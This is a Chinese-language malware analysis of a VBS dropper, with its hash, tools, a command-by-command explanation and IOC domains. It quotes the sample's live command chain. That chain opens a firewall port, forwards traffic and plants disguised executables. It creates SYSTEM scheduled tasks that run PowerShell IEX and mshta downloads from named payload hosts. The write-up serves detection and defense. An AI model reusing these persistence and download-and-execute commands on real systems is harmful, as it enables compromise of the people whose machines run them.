

样本基础信息
1 | $ md5sum.exe tmp.vbs |
2 | 496ee068136859c24f1e974dced3c47e *tmp.vbs |
分析环境信息
- nodepad++：文本阅读和分析
- OS： windows 10 64bit
- IDA：6.6
原始恶意软件内容

代码详细分析
ws = CreateObject("WScript.Shell")
上述代码创建一个[WScript的shell执行环境](https://docs.microsoft.com/en-us/previous-versions//aew9yb99%28v%3dvs.85%29),可以用来执行控制台命令，操作注册表、快捷方式、本地文件夹等。ws.Run 将执行双引号包围的字符串。
cmd /c 后面紧接着的试用&连接起来的字符串(&表示 顺序执行多条命令，而不管命令是否执行成功，参考)，用来告诉命令行执行完所有命令后退出，关于cmd命令的详细参数，可以在命令行中使用下面命令获取帮助
help cmd，如下图：
!(获取cmd命令的帮助)[help_about_cmd.png]
明确cmd 和&的用法后，仅需要读懂&连接的每个子命令（表达式）即可。分别介绍如下：
echo GcPU >> c:\windows\temp\svchost.exe在svchost.exe文件末位追加GcPUecho ""*"" >c:\windows\temp\ipc.txt: 创建ipc.txt文件，内容为””*””netsh firewall add portopening tcp 65533 DNSd：创建名为DNSd的防火墙规则，功能为打开65533端口netsh interface portproxy add v4tov4 listenport=65533 connectaddress=1.1.1.1 connectport=53: 开启windows防火墙的端口转发功能，将65533端口数据转发到1.1.1.1的53端口上。copy /y c:\windows\temp\svchost.exe c:\windows\zpSQXA.exe: 拷贝svchost.exe文件到windows目录下的zpSQXA.exemove /y c:\windows\temp\dig.exe c:\windows\JFeogluT.exe:移动dig文件到windows下。if exist C:/windows/system32/WindowsPowerShell/ (schtasks /create /ru system /sc MINUTE /mo 50 /st 07:00:00 /tn ""\Microsoft\windows\Bluetool"" /tr ""powershell -ep bypass -e some_base64_string"" /F&schtasks /create /ru system /sc MINUTE /mo 10 /st 07:05:00 /tn zpSQXA /tr ""C:\Windows\zpSQXA.exe"" /F&schtasks /create /ru system /sc MINUTE /mo 10 /st 07:00:00 /tn ""\OSmoH"" /tr ""c:\windows\JFeogluT.exe"" /F) else (start /b sc start Schedule&ping localhost&sc query Schedule|findstr RUNNING&&schtasks /delete /TN Autocheck /f&schtasks /create /ru system /sc MINUTE /mo 50 /ST 07:00:00 /TN Autocheck /tr ""cmd.exe /c mshta http://w.beahh.com/page.html?p%COMPUTERNAME%""&schtasks /run /TN Autocheck&start /b sc start Schedule&ping localhost&sc query Schedule|findstr RUNNING&&schtasks /delete /TN Autostart /f&schtasks /create /ru system /sc MINUTE /mo 10 /ST 07:00:00 /TN Autostart /tr ""c:\windows\JFeogluT.exe""&schtasks /run /TN Autostart&start /b sc start Schedule&ping localhost&sc query Schedule|findstr RUNNING&&schtasks /delete /TN escan /f&schtasks /create /ru system /sc MINUTE /mo 10 /ST 07:00:00 /TN escan /tr ""c:\windows\zpSQXA.exe""&schtasks /run /TN escan)if exist C:/windows/system32/WindowsPowerShell/: 判断是否存在powershell环境（如windows xp下不一定存在）。schtasks /create /ru system /sc MINUTE /mo 50 /st 07:00:00 /tn ""\Microsoft\windows\Bluetool"" /tr ""powershell -ep bypass -e some_base64_string"" /F:创建名称为\Microsoft\windows\Bluetool的定时任务，执行powershell脚本。powershell脚本内容为(使用在线base64解密工具)：IEX (New-Object Net.WebClient).downloadstring('http://v.beahh.com/v'+$env:USERDOMAIN)，进一步访问http://v.beahh.com/vXXXX后获得如下内容：`if(!(test-path ($env:tmp+’\kdls92jsjqs0.txt’))){IEX (New-Object Net.WebClient).downloadstring(‘http://t.awcna.com/mig.jsp')}`,因此此定时任务下载到了mig.jsp并执行。- 此后又创建定时任务启动了：C:\Windows\zpSQXA.exe 和 c:\windows\JFeogluT.exe
- 如果没有powershell环境则首先确保schedule服务启动并运行，并尝试用mshta http://w.beahh.com/page.html?p%COMPUTERNAME%下载并恶意内容
- 在eles分支中尝试关掉杀毒软甲escan的服务
关键IOC
hxxp://v.beahh.com/v ： 恶意软甲payload服务站
http://t.awcna.com/mig.jsp：恶意软甲payload服务站
http://w.beahh.com/page.html?p%COMPUTERNAME%：恶意软甲payload服务站